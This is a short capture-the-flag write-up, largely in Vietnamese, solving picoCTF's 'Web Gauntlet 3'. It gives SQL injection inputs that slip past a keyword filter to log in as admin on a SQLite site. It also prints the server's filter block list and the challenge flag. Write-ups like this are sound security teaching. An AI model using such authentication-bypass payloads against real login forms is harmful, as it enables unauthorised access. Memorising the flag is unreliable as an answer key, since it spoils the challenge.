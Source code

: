 # Web Gauntlet 3

## Description

Last time, I promise! Only 25 characters this time. 
Log in as admin Site: http://mercury.picoctf.net:28715/ 
Filter: http://mercury.picoctf.net:28715/filter.php

## Hint

Each filter is separated by a space. Spaces are not filtered
There is only 1 round this time, when you beat it the flag will be in filter.php.
sqlite

## Point

300 points

## Solution

Chall này ko có nhiều thứ để nói vì nó tương tự như chall 2 , nếu bạn đã thành công bypass được chall 2 thì ý tưởng để làm bài này cũng vậy. Tuy nhiên nó có limit lenght < 25 nhưng cũng ko có gì khó khăn cả .

User bypass : 
> adm'||'in'

Passwd bypass :
> x' IS NOT '1

Ta đem một kí tự số so sánh với một kí tự chữ điều này *IS NOT* trả về true .

QUERY :
> SELECT username, password FROM users WHERE username='adm'||'in' AND password='x' IS NOT '1'

Sau khi bypass bạn chỉ cần truy cập vào trang filter.php để get flag !!!

> filter.php

```
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_2a78ea34c84da0bf585ada4cb9a6f8fb}
?>
```
DONE!
